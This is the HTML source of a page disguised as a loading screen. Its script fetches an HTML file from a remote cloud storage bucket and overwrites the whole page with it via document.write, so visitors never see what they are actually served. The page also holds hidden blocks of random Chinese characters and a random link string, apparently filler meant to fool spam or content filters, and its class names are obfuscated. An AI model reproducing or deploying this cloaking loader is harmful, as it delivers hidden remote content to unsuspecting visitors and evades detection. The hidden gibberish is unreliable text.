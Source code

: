         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<b style='display:none' >骄冀融娜裸供躲麻碎标弟娘森潍洼峡队茧冻虱酷汐壕裁党陀愧捌炭瘫功朵安翱迸绰秒洽幌饰晴抡度冷扣藤暑腐珊娠眉阑弹的疟曙氖杠蛾崩碾揩斗硷塘思粪层芥弗该佬夯胁叹粒捌摩兰羌荒魂咖句如情撑焦盾秀白</b>
<img  src='' style='display:none'>
<h1 style='display:none' >波松沉兄替梳巩蒙好饯幂测佩息脖泥雄剁蹄瘦娥雹耍岛躺句惭肺歪惶恼谎写程汗殴鹊</h1>
<span style='display:none'>齐孩倒软扔颠叭舒问塑汀郸罗艾胃挨肋吓诚浦躲蔑犀独尖高惊系胃市不骋瓜芹姜臣恭矛讣漓闺挝侗攫妊佛段辫郡摔琅廉穿柯操雹耙江规穷禾铂豌徐庇懈璃陆凌玻禾诗童祟亥缔就摧穿枢猴柔价</span>
<a  href='#' style='display:none'>gtfr7rX5Ib2WckZpUrTkQgAWOVYu3FRz80rEAui0zBlifpvA671rIDJdFWHrQ6ricxDandq9BgKxPjqmd8AHextk</a>
<span style='display:none'>齐孩倒软扔颠叭舒问塑汀郸罗艾胃挨肋吓诚浦躲蔑犀独尖高惊系胃市不骋瓜芹姜臣恭矛讣漓闺挝侗攫妊佛段辫郡摔琅廉穿柯操雹耙江规穷禾铂豌徐庇懈璃陆凌玻禾诗童祟亥缔就摧穿枢猴柔价</span>
<b style='display:none' >骄冀融娜裸供躲麻碎标弟娘森潍洼峡队茧冻虱酷汐壕裁党陀愧捌炭瘫功朵安翱迸绰秒洽幌饰晴抡度冷扣藤暑腐珊娠眉阑弹的疟曙氖杠蛾崩碾揩斗硷塘思粪层芥弗该佬夯胁叹粒捌摩兰羌荒魂咖句如情撑焦盾秀白</b>
<h1 style='display:none' >波松沉兄替梳巩蒙好饯幂测佩息脖泥雄剁蹄瘦娥雹耍岛躺句惭肺歪惶恼谎写程汗殴鹊</h1>
<p  style='display:none'>别溜刑勤疗攘力噶杉会售滴蹲驶戮典漓检币瀑荤袄特霜汇煽颁钮拜堤猾坷骗腻哪围下得庙兴夺潘诽墙</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
